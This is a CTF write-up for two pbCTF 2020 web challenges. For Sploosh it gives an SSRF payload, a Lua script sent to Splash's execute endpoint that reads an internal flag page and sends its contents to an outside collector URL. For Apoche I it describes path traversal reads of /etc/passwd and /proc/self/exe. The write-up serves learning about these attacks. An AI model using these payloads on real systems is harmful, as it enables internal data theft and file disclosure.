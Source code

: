 ```yaml
---
layout: post
date: 2020-12-07 00:00:00
title: "pbCTF 2020 Write Up"
categories: CTF
tags: [Path Traversal, SSRF]
author:
  - Jeongwon Jo
---
```

I participated by opening the CTF this time at Perfect Blue. Let's write Write Up only for web challenges solved by CTF.

---
## <span style="color:#21C587"></span> (Web) Sploosh [156 pts]

This time, we will solve a problem called Sploosh among web challenge from pbCTF.
![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Sploosh/1.png?raw=true)
When you come into challenge, you can see that there is a form for entering the URL, and you can download the source code by clicking here.<br><br>

Once you think about it before looking at the source code, you might be suspicious of `SSRF` because it has the ability to type in the url.

```php
<?php
error_reporting(0);

header("Content-Type: application/json");

function fail() {
  echo "{}";
  die();
}

if (!isset($_GET['url'])) {
  fail();
}


$url = $_GET['url'];

if ($url === '') {
  fail();
}

try {
  $json = file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url));
  $out = array("geometry" => json_decode($json)->geometry);
  echo ($out);
} catch(Exception $e) {
  fail();
}
?>
```

Let's check the api.php source code. You can see that the url is input and the file is opened and checked with the file_get_contents() function. And you can see that the file value is output as the geometry value.
<br><br>
SSRF seems to be fired by the `file_get_contents()` function of api.php.

```php
<?php

$FLAG = getenv("FLAG");

$remote_ip = $_SERVER['REMOTE_ADDR'];
if ($remote_ip === "172.16.0.13" || $remote_ip === '172.16.0.14') {
  echo $FLAG;
} else {
  echo "No flag for you :)";
}
?>
```

Let's check the source code of flag.php. If the connection IP is `172.16.0.13` or `172.16.0.14`, you can see the flag is given.

And looking at the flag.php source code, you can see that the flag is only output on the internal server. So it looks like we need to put the flag in a specific variable and bring it to our private server.

Now I've searched for Sploosh to do an exploit. If you check [Sploosh's official homepage](https://splash.readthedocs.io/en/stable/scripting-tutorial.html#scripting-tutorial), you find that you can create and run Lua scripts by connecting to the `execute` endpoint.

![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Sploosh/2.png?raw=true)

The picture above is on the official Sploosh website. Looking at the contents, you can see that the `execute` endpoint sends the RCE payload using the lua_source parameter.

```lua
function main(exploit, args)
  exploit:go("http://172.16.0.14/flag.php")
  local flag = splash:html()
  exploit:go("requestbin" .. flag)
  return {geometry=data}
end
```
So, I wrote the SSRF + RCE payload as above using the lua script.
```python
flag = requests.get("http://172.16.0.14/flag.php")
requests.get("requestbin"+flag)
```
If the exploit code is interpreted in Python, it is as above.

Finally, if you connect and send the exploit code above to the excute endpoint, a flag will come to requestbin. (`URL encoding`)
```
payload : http%3A%2F%2Flocalhost%3A8050%2Fexecute%3Flua_source%3Dfunction%2520main%28splash%2C%2520args%29%2520splash%3Ago%28%2522http%3A%2F%2F172.16.0.14%2Fflag.php%2522%29%2520local%2520data%2520%3D%2520splash%3Ahtml%28%29%2520splash%3Ago%28%2522https://66409bdd5f994b912d1a7f0f28d3b33f.m.pipedream.net%2F%2522%2520..%2520data%29%2520return%2520%7Bgeometry%3Ddata%7D%2520end
```
So, I'll URL-encode the exploit code and pass it over.

![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Sploosh/3.png?raw=true)

When I sent the above exploit payload, I could see the flag coming to the requestbin.

> FLAG : pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}

---
## <span style="color:#21C587"></span> (Web) Apoche I [58 pts]

This time, we will solve a challenge called Apoche I among web challenge from pbCTF.
![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Apoche%20I/1.png?raw=true)
Looking at the challenge description, there are 5 URLs given. You can connect to an open server among 5 servers. (Some servers are closed.)

And looking at the hint, it says to get information about the binary.
![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Apoche%20I/2.png?raw=true)
I connected to 34.68.159.75:41521, and when I checked the robots.txt file, I could see that there is a secret directory. I thought LFI would happen here, so I grabbed a proxy and attempted an LFI attack.

![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Apoche%20I/3.png?raw=true)
When I grabbed the request using Burp Suite and accessed the `/etc/passwd` file, I could see that the `LFI` worked well.

![](https://github.com/wjddnjs33/image/blob/main/pbCTF%202020/Apoche%20I/4.png?raw=true)
So I accessed `/proc/self/exe` to get the `binary file`, and when I searched for `pbctf{`, I could see that the binary file had a flag.

> FLAG : pbctf{n0t_re4lly_apache_ap0che!}

---

